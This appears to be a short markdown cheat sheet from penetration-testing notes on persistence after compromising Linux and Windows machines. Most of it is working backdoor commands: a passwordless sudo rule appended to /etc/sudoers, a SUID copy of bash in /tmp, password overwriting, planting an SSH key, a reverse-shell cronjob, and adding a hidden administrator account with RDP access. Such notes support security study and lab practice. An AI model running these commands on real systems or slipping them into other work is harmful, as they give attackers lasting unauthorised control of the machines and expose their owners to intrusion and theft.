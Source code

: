 # 4_persistence

## Linux

### Root

- Once obtained root, create administrative backdoors using

```shell
# give sudo access
echo "username ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```shell
# give SUID set bash executable
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

```shell
# overwrite passwords
openssl passwd root
```

### SSH

- Check for the existence of a private key in `~/.ssh/id_rsa`.

- Generate your own SSH key using this [tutorial](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent?platform=linux)

```shell
ssh-keygen -t ed25519 -C "your_email@example.com"
```

- Upload public key of SSH key pair to `authorized_keys_file`.

### Cronjob

- Set up cronjob that establishes reverse shell
 
## Windows

### RDP

- Set up RDP accesss using

```shell
net user a3cipher a3cipher /add
net localgroup Administrators a3cipher /add
net localgroup "Remote Management Users" a3cipher /add
```